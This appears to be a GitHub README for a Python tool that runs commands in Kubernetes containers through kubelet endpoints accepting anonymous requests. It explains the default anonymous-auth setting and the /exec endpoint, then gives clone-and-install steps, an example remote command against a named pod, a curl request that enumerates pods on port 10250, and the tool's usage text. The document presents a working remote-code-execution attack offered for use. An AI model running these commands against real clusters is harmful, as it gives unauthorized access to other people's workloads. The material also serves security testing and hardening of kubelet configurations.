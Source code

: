 # Kubelet Anonymous RCE

>Executes commands on a kubelet endpoint that allows anonymous authentication (default)

## Why?

By default `kubelet` allows anonymous authentication:

```
--anonymous-auth
    Enables anonymous requests to the Kubelet server. Requests that are not
    rejected by another authentication method are treated as anonymous
    requests. Anonymous requests have a username of system:anonymous, and a
    group name of system:unauthenticated. (default true)
```

The `kubelet` API is not documented but the [code](https://github.com/kubernetes/kubernetes/blob/master/pkg/kubelet/server/server.go) is straightforward.

There is a `/exec` endpoint which allows running a command in a target container and returns a link to fetch the output. That link is a stream that should be read with a WebSocket.

This script handles it all easily.

## Install

```
$ git clone https://github.com/serain/kubelet-anon-exec.git
$ cd kubelet-anon-exec
$ pip3 install -r requirements.txt
```

## Example

This command runs `ls /tmp` in the `tiller` container and returns the output:

```
$ python3 kubelet-anon-rce.py           \
          --node 10.1.2.3               \
          --namespace kube-system       \
          --pod tiller-797d1b1234-gb6qt \
          --container tiller            \
          --exec "ls /tmp"
```

## How do I find containers?

You can get a list of pods/containers running on the node from the `/pods` endpoint:

```
$ curl https://10.1.2.3:10250/pods
```

## Help

```
$ python kubelet-anon-exec.py --help
usage: kubelet-anon-exec.py [-h] [--port PORT] -t TARGET -n NAMESPACE -p POD
                            -c CONTAINER -x EXEC

Run commands against a Kubelet endpoint.

optional arguments:
  -h, --help            show this help message and exit
  --port PORT           endpoint port, default: 10250
  -t TARGET, --target TARGET
                        Kubernetes node IP address
  -n NAMESPACE, --namespace NAMESPACE
                        namespace, ie: 'default'
  -p POD, --pod POD     pod name, ie: 'dh-nginx-8484b69674-z9tzl'
  -c CONTAINER, --container CONTAINER
                        container name, ie:'nginx'
  -x EXEC, --exec EXEC  command to execute, ie: 'ls /tmp'
```
